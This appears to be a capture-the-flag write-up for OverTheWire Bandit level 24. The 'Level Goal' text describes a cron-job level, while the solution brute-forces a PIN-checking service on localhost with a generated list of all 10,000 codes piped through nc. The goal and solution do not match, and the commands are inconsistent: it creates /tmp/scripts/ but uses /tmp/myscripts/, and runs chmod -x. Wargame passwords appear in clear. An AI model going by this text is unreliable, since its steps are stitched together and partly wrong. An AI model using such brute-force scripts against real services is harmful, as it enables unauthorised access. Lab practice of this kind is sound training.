 <h1>Bandit 24</h1>

<h2 id="level-goal">Level Goal</h2>
<p>A program is running automatically at regular intervals from
<strong>cron</strong>, the time-based job scheduler. Look in <strong>/etc/cron.d/</strong> for
the configuration and see what command is being executed.</p>

<p><strong>NOTE:</strong> This level requires you to create your own first
shell-script. This is a very big step and you should be proud of
yourself when you beat this level!</p>

<p><strong>NOTE 2:</strong> Keep in mind that your shell script is removed once
executed, so you may want to keep a copy around…</p>

<h2 id="commands-you-may-need-to-solve-this-level">Commands you may need to solve this level</h2>
<p>cron, crontab, crontab(5) (use “man 5 crontab” to access this)</p>


<h1>Solution</h1>

```
user@host:~$ ssh bandit24@bandit.labs.overthewire.org -p 2220
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 1111
Wrong! Please enter the correct pincode. Try again.
^C
```

Let's make a script that automatically tries all combinations.

```
bandit24@bandit:~$ mkdir /tmp/scripts/
bandit24@bandit:~$ vim /tmp/myscripts/runme.sh
  1 #!/bin/bash
  2 for i in {0000..9999}; do
  3     echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ" $i >> /tmp/myscripts/combinations.txt
  4 done
bandit24@bandit:~$ chmod -x /tmp/myscripts/runme.sh
bandit24@bandit:~$ touch /tmp/myscripts/combinations.txt
bandit24@bandit:~$ ls /tmp/myscripts/
combinations.txt  runme.sh
bandit24@bandit:~$ bash /tmp/myscripts/runme.sh
bandit24@bandit:~$ cat /tmp/myscripts/combinations.txt | nc localhost 30002
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
...
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
```

[bandit level 23](23.md)
[bandit level 25](25.md)
